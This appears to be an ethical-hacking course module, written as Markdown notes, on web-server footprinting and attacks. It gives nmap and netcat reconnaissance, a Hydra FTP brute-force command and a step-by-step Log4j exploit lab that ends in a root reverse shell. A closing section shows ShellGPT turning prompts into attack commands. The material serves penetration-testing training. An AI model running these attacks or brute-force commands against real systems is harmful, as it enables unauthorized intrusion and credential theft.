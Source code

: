 # Module 13

## Hacking Web Servers
A web server is hardware and software that handles client HTTP requests, delivers requested resources, or returns errors, and is often targeted by ethical hackers for testing vulnerabilities.

**Objectives**    
- Understand how a web server functions (hardware + software).
- Learn how HTTP requests and responses work.
- Identify errors and vulnerabilities in web servers.
- Explore how ethical hackers/pen testers test and secure servers.

**Approach**    
- Study the client-server communication process (HTTP requests/responses).
- Observe how servers fetch data from storage or application layers.
- Analyze error handling (e.g., missing content).
- Use ethical hacking tools and techniques to simulate attacks and identify weaknesses.

---

### 1. Footprint the Webserver
An ethical hacker or penetration tester must perform footprinting to detect the loopholes in the web server of the target organization.

#### 1.1 Information gathering using Ghost Eye
[GitHub - BullsEye0/ghost_eye](https://github.com/BullsEye0/ghost_eye)    
Ghost Eye is an Information Gathering Tool I made in python 3. To run Ghost Eye, it only needs a domain or ip. Ghost Eye can work with any Linux distros if they support Python 3.
- `git clone https://github.com/BullsEye0/ghost_eye.git`
- `cd ghost_eye`
- `pip3 install -r requirements.txt`
Now Launch it
- `python3 ghost-eye.py`
We can use the tool for WHOIS lookup, DNS etc and also scan for clickjacking vulnerability

#### 1.2 Perform Web Reconnaisance using skipfish
[skipfish | Kali Linux Tools](https://www.kali.org/tools/skipfish/)

#### 1.3 Footprint Webserver using Httprecon
[httprecon project - advanced http fingerprinting](https://www.computec.ch/projekte/httprecon/)

#### 1.4 Footprinting using ID serve
[GRC | ID Serve - Internet Server Identification Utility](https://www.grc.com/id/idserve.htm)

#### 1.5 Footprinting using netcat and Telnet
**netcat**
- `nc -vv certifiedhacker.com 443`
- `GET / HTTP/1.0`

**telnet**
- `telnet certifiedhacker.com 443`
- `GET / HTTP/1.0`

#### 1.6 Enumeration Webserver using NSE script
**Steps**:
- Scan
  - `nmap -sV --script http-enum certifiedhacker.com`
- Now to enumerate the hostnames use the following script    
  - `nmap --script hostmap-bft -script-args hostmap.bfk=hostmap- certifiedhacker.com`
- http trace scanner
  - nmap --script http-trace certifiedhacker.com
- Http WAF (Firewall) detection
  - nmap -p 80 --script http-waf-detect certifiedhacker.com

#### 1.7 Uniscan webserver footprinting
[uniscan | Kali Linux Tools](https://www.kali.org/tools/uniscan/)

---

### 2. Perform Webserver attacks
An ethical hacker or pen tester must test the company’s web server against various attacks and other vulnerabilities.

#### 2.1 Crack FTP credentials using Hydra
- Hydra -L users.txt -P passwords.txt ftp://192.168.18.2

#### 2.2 Gain Access to Target Web Server by Exploiting Log4j Vulnerability

**Install Docker**    
- `sudo apt-get update`
- `sudo apt-get install docker.io `

**Build the docker Image**    
- `docker build -t log4j-shell-poc`
> `-t`: specifies allocating a pseudo-tty.

**Start the vulnerable server**
- `docker run --network host log4j-shell-poc`

**Exploitation**    
Scan the IP    
- `nmap -sV -sC 10.10.1.9`
1. From the result we can see that port 8080 is open and Apache Tomcat/Coyote 1.1 server is running on the target system.
2. Upon investigation we can see that Apache is vulnerable to Remote Code Execution (RCE) attack. Now we wil use searchsploit to find the vulnerabilities pertaining to RCE attack on the target server.
3. In the terminal window run `searchsploit -t Apache RCE` command to view the RCE vulnerabilities on the Apache server.
4. Now, we need to select a vulnerability to exploit the Server from the list, from the Nmap scan we found that the Apache Tomcat server is running on JSP so we will target java vulnerabilities from the list of vulnerabilities.
5. We can see that Java platform is vulnerable for Apache Log4j 2 - Remote Command Execution (RCE) exploit.
6. We will now exploit Log4j vulnerability present in the target Web Server to perform Remote code execution.
7. Click the Firefox icon at the top of Desktop, to open a browser window.
8. In the address bar of the browser, type http://10.10.1.9:8080 and press Enter.
9. As we can observe that the Log4j vulnerable server is running on the Ubuntu machine, leave the Firefox and website open.
10. Switch to the Terminal window, run cd log4j-shell-poc/ and press Enter, to enter into log4j-shell-poc directory.
11. Now, we needed to install JDK 8, to do that open a new terminal window and type sudo su and press Enter to run the programs as a root user.
> In the [sudo] password for attacker field, type toor as a password and press Enter.
12. We need to extract JDK zip file which is already placed at /home/attacker location.
13. Type tar -xf jdk-8u202-linux-x64.tar.gz and press Enter, to extract the file.
> -xf: specifies extract all files.
14. Now we will move the jdk1.8.0_202 into /usr/bin/. To do that, type mv jdk1.8.0_202 /usr/bin/ and press Enter.
15. Now, we need to update the installed JDK path in the poc.py file.
16. Navigate to the previous terminal window. In the terminal, type pluma poc.py and press Enter to open poc.py file.
17. In the poc.py file scroll down and in line 62, replace jdk1.8.0_20/bin/javac with /usr/bin/jdk1.8.0_202/bin/javac.
18. Scroll down to line 87 and replace jdk1.8.0_20/bin/java with /usr/bin/jdk1.8.0_202/bin/java.
19. Scroll down to line 99 and replace jdk1.8.0_20/bin/java with /usr/bin/jdk1.8.0_202/bin/java.
20. After making all the changes save the changes and close the poc.py editor window.
21. Now, open a new terminal window and type nc -lvp 9001 and press Enter, to initiate a netcat listener as shown in screenshot.
22. Switch to previous terminal window and type python3 poc.py --userip 10.10.1.13 --webport 8000 --lport 9001 and press Enter, to start the exploitation and create payload.
23. Now, copy the payload generated in the send me: section.
24. Switch to Firefox browser window, in Username field paste the payload that was copied in previous step and in Password field type password and press Login button as shown in the screenshot.
> In the Password field you can enter any password.
25. Now switch to the netcat listener, you can see that a reverse shell is opened.
26. In the listener window type pwd and press Enter, to view the present working directory.
27. Now, type whoami and press Enter.
28. We can see that we have shell access to the target web application as a root user.
29. The Log4j vulnerability takes the payload as input and processes it, as a result we will obtain a reverse shell.

---

### 3. Perform a Web Server Hacking using AI
AI-powered tools and techniques provide ethical hackers with enhanced capabilities to discover vulnerabilities, automate attacks, and strengthen defenses.

#### 3.1 Perform Web Server Footprinting and Attacks using ShellGPT
**Steps**:
**Directory traversal**
- `sgpt --shell “Perform a directory traversal on target url https://certifiedhacker.com using gobuster”`
- 
**FTP Brute force**
- `sgpt --shell "Attempt FTP login on target IP 10.10.1.11 with hydra using usernames and passwords file from /home/attacker/Wordlists"`
- 
**Webserver Footprinting**
- `sgpt --shell "Perform webserver footprinting on target IP 10.10.1.22"`
- `sgpt --shell “Perform webserver footprinting on target IP 10.10.1.22 with netcat`

**Mirror a Website**
- `sgpt --shell “Mirror the target website certifiedhacker.com”`

---
---
